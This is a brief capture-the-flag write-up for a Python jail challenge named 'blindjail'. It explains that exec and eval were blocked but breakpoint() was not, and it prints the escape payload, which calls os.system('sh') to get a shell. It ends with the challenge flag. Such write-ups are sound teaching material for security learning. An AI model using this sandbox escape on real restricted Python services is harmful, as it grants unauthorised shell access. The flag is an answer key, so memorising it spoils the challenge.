


# blindjail
> There is no escape, sometimes going in blind makes other attributes stronger.

## About the Challenge
We were given a server to connect where we can execute a python code (Classic PyJail) but there are some filter like we can't use `exec()` or `eval()` function 



## How to Solve?
I tried several function and luckily the program didn't blacklist `breakpoint()` function. So the final payload will be like this

```python
breakpoint()
...
import os
os.system("sh")
```


```
nitectf{sl1d3_0ver_th3se_4ttribut3s}
```